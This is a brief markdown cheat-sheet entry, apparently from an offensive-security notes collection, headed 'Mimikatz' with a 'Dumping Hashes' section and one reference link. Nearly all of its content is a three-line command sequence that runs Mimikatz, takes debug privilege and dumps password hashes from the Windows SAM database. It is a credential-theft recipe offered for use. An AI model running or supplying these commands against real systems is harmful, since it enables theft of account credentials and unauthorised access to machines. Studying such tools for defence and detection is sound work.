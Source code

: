 # Mimikatz

## Dumping Hashes

```
mimikatz.exe

privilege::debug

lsadump::sam
```





***

## REFERENCES

* [https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a)

